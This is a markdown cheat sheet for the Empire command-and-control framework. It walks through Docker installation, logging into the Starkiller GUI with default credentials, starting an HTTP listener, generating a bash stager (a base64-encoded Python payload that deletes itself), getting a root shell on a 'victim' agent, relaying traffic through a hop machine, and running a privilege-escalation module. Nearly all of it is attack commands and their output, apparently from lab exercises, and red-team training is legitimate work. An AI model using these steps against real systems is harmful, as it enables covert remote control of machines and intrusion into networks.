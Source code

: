 ```yaml
---
title: Empire
description: Empire C2 introduction.
---
```


# Empire

## Installation

### Using Empire (CLI)

1. Pull **Empire** docker image : `docker pull bcsecurity/empire:latest`
2. Run **Empire** docker (in background) : `docker run -it --net=host -d bcsecurity/empire:latest`
3. List dockers running :

```bash
$ docker ps
CONTAINER ID   IMAGE    ...
27aaeb4e935a   bcsecurity/empire:latest   ...
```

4. Run **Empire** client on the docker : `docker exec -it 27aaeb4e935a ./ps-empire client`

### Using Empire x Starkiller (GUI)

1. Download **Starkiller** AppImage from [release](https://github.com/BC-SECURITY/Starkiller/releases/).
2. Pull **Empire** docker image : `docker pull bcsecurity/empire:latest`
3. Run **Empire** docker : `docker run -it --net=host bcsecurity/empire:latest`
4. Login on **Starkiller** : URL : `https://localhost:1337`, username : `empireadmin`, password : `password123`.

## Usage

### Empire (CLI)

Offical docs and examples, [link](https://github.com/BC-SECURITY/Empire-Cli).

Setup an HTTP listener :

```bash
(Empire) > uselistener http
[...]
(Empire: uselistener/http) > set Name listener1
[*] Set Name to listener1
(Empire: uselistener/http) > set Host 10.50.193.153 # LHOST
[*] Set Host to 10.50.193.153
(Empire: uselistener/http) > set Port 4444 # LPORT
[*] Set Port to 4444
(Empire: uselistener/http) > execute
[+] Listener http successfully started
(Empire: uselistener/http) > back
(Empire) > listeners # List all listeners

Id Name         ...
1  listener1    ...

(Empire: listeners) > kill listener1 # kill <NAME>
```

Setup a stager :

```bash
(Empire) > usestager multi/bash # multi/launcher
[...]
(Empire: usestager/multi/bash) > set Listener listener1
[*] Set Listener to listener1
(Empire: usestager/multi/bash) > execute
#!/bin/bash
echo "import sys,base64,warnings;warnings.filterwarnings('ignore');exec(base64.b64decode('aW1wb3J0IHN...'));" | python3 &
rm -f "$0"
exit
(Empire: usestager/multi/bash) > back
(Empire) >
```

Interacts with agents :

```bash
# "run stager on victim"
[+] New agent PZNAL7NS checked in
[*] Sending agent (stage 2) to PZNAL7NS at 10.200.196.200
(Empire) > agents

ID │ Name      │ IP             │ ...
1  │ PZNAL7NS* │ 10.200.196.200 │ ...
(Empire: agents) > rename PZNAL7NS GITPROD
(Empire: agents) > interact GITPROD
(Empire: GITPROD) > help
[...]
(Empire: GITPROD) > shell
[*] Exit Shell Menu with Ctrl+C
(GITPROD)  > whoami
root
(GITPROD) /root > <CTRL+C>
[!] Type exit to quit
(Empire: agents) > kill GITPROD
[>] Are you sure you want to kill GITPROD? [y/N] y
[*] Kill command sent to agent GITPROD
[*] Removed agent GITPROD from list
```

Redirect listener (hop listener) :

`ATTACKER_MACHINE <- HOP_MACHINE <- VICTIM_MACHINE`

```bash
(Empire) > uselistener http_hop
[...]
(Empire: uselistener/http_hop) > set Host 10.200.196.200 # HOP_MACHINE listen IP
[*] Set Host to 10.200.196.200
(Empire: uselistener/http_hop) > set Port 15555 # HOP_MACHINE listen PORT
[*] Set Port to 15555
(Empire: uselistener/http_hop) > set RedirectListener listener1 # Listener on ATTACKER_MACHINE
[*] Set RedirectListener to listener1
(Empire: uselistener/http_hop) > execute
[+] Listener http_hop successfully started

# Default OutFolder is /tmp/http_hop/
# If you are using docker you need to copy the folder to your host.
$ sudo docker ps
CONTAINER ID   IMAGE                    ...
31c2211149a1   bcsecurity/empire:latest ...
$ sudo docker cp 31c2211149a1:/tmp/http_hop/ .
$ scp -r http_hop/ user@HOP_MACHINE:/tmp/http_hop/
$ ssh user@HOP_MACHINE
[user@HOP_MACHINE ~] cd /tmp/http_hop/
[user@HOP_MACHINE ~] php -S 0.0.0.0:15555
PHP 7.2.24 Development Server started at Mon Feb  7 12:29:05 2022
Listening on http://0.0.0.0:15555
Document root is /tmp/http_hop
Press Ctrl-C to quit.
# Then, make a new stager for VICTIM_MACHINE and executes it.
[Mon Feb  7 12:44:44 2022] 10.200.81.150:49949 [200]: /admin/get.php
[Mon Feb  7 12:44:45 2022] 10.200.81.150:49950 [200]: /admin/get.php
[Mon Feb  7 12:44:45 2022] 10.200.81.150:49951 [200]: /news.php

# On Empire
[+] New agent U1WEADC3 checked in
[*] Sending agent (stage 2) to U1WEADC3 at 10.200.81.200
```

Use module :

```bash
(Empire: agents) > interact U1WEADC3
(Empire: U1WEADC3) > usemodule powershell/privesc/sherlock
[*] Set Agent to U1WEADC3

[...]
(Empire: usemodule/powershell/privesc/sherlock) > execute
[*] Tasked U1WEADC3 to run Task 1
[*] Task 1 results received
Job started: G4XF7U
[*] Task 1 results received


Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems
[...]
```